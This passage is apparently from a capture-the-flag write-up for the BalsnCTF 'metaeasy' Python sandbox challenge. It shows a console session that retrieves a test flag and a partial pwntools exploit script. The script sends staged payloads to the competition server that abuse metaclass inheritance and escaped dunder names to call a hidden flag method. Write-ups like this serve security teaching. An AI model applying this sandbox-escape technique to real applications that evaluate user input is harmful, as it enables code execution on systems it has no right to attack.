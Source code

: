 ```console
Option ? :2
Give me your method name :C
Give me your function:self.O('',(),{}).IWantGETFLAGPlz(0)
Well Done! We Create an instance for you !
1. Inspect attribute
2. Using method
3. Exit
Option ? :2
Please enter the method's name :A
calling method A...
done
1. Inspect attribute
2. Using method
3. Exit
Option ? :2
Please enter the method's name :B
calling method B...
done
1. Inspect attribute
2. Using method
3. Exit
Option ? :2
Please enter the method's name :C
calling method C...
 () {'getFlag': <function MasterMetaClass.__new__.<locals>.getFlag at 0x108b493a0>}
Here you go, my master
BALSN{test_flag}
done
```

The final exploit is given as follows:

```python
from pwn import *


def create_method(p, key, value):
    '''Creates a method.
    '''
    p.sendline(b'2')
    p.sendline(key)
    p.sendline(value)
    p.recvuntil(b'Option ?')


def use_method(p, key):
    '''Uses a method.
    '''
    p.sendline(b'2')
    p.sendline(key)
    p.recvuntil(b'calling method')


def main():
    # p = process(["python", "./dist/src/challenge.py"])
    p = connect('metaeasy.balsnctf.com', 19092)

    p.recvuntil(b'Option ?')

    stageA = b"s=self;e='\\x5f'*2;s.N={e+'init'+e:print}"
    stageB = b"s=self;s.O=type('',(MasterMetaClass,),s.N)"
    stageC = b"self.O('',(),{}).IWantGETFLAGPlz(0)"

    create_method(p, b'A', stageA)
```